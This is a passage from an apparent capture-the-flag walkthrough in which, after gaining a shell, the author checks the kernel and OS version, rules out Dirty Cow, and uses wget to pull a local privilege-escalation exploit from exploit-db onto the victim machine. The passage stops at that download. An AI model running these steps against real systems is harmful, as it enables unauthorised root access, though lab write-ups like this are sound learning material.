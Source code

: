 We got a shell! Yay!

Now it's time for privilege escalation. Let's see some information about the operating system and kernel. We can do this by using the command **uname **or **lsb_release**. 

![](/assets/img/nk/image-40.png)

I want you to notice few things in the output. The first is that it's using **Linux kernel 2.6.X** and The operating system it operates on is **CentOS 4.5**.   
Now If you are an experienced pentester, you might be aware of that Linux kernels 2.6.X are vulnerable to **Dirty Cow exploit**. After trying couple of Dirty Cow exploits, I discovered that this vulnerability has been already patched by the maker of the box. So we can't use dirty cow exploit here. But we can use that CentOS version information to find exploits related to it.  
Let's google!

![](/assets/img/nk/image-41.png)

Let's download this exploit in vulnerable machine and compile it. To download it on victim machine, I used the **wget **tool. 
    
    
    bash-3.00$ wget --no-check-certificate https://www.exploit-db.com/download/9542
